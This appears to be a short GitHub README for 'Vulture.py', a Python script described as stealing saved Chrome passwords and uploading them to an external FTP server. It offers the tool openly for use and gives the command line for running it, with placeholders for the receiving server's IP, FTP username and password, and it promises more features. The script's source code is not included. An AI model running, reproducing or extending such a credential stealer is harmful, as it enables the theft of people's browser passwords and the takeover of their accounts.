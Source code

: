 # Vulture.py
Vulture.py, used to grab and upload Chrome passwords to an external FTP server.

To use Vulture, you'll need to run it from the command line, using the command: `python3 vulture.py -s <SERVER IP> -u <FTP USERNAME> -p <FTP PASSWORD>` It'll just grab the passwords for now, but more options _will_ be added shortly.